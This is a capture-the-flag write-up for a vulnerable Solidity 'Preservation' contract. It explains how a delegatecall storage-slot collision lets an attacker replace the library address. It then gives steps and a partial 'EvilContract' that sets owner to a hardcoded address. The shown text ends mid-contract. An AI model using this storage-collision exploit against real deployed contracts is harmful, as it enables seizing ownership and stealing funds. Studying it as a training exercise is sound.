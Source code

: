 **Challenge description**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
The goal of this level is for you to claim ownership of the instance you are given.

--------
**Analysis**

I explained well the `delegateCall` function before and how it runs in the caller context but I left the context a little blurry so let's define it.
The context here is the storage variables or let me call them `state variables` they are defined in the contract address and the called contract will handle them *blindly* which means he will assume that

*Storage layout of the caller*  == *Storage layout of the callee*

Let's look to our contract now.

![Perservation contract](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138010/0cded2638e39c98dee9e35690675e5a299c3628f81c9bdb1375a708b5e209098_ecu1g4.png)  

The interesting bits are : 

```js
  //inside the library contract
  uint storedTime;  

   function setTime(uint _time) public {
    storedTime = _time;
  }
```

```js
 // inside the vulnerable contract
 address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
```

I guess you got an idea what will happens with the delegateCall ? `storedTime` is actually our `timeZone1Library` variable they are both at `slot[0]` of the storage so it will be set instead. 
and the `setSecondTime` does the same thing as the `setFirstTime` in this case.

-----
**Exploitation**

1. Create an evil contract that implements `setTime(uint)` and has the same storage layout as the vulnerable contract ( by declaring the same variables in the same order 😄)
2. call the `set_X_Time` of the vulnerable contract by passing uint(evilcontractAddress) as paramater
3. call the method again now our evilContract function will be triggered to set owner = ourAccount;

Let's craft the *EvilContract*

```js
contract EvilContract {

  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  
  // These variable are useless because we won't to ensure that the owner is in slot[2] 
  // we don't really care about the slots that comes after
  uint storedTime;
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

   function setTime(uint _time) public {
    owner = 0x84e7a3679A82C2766Ff8382862ab883FF9460307;
   }
```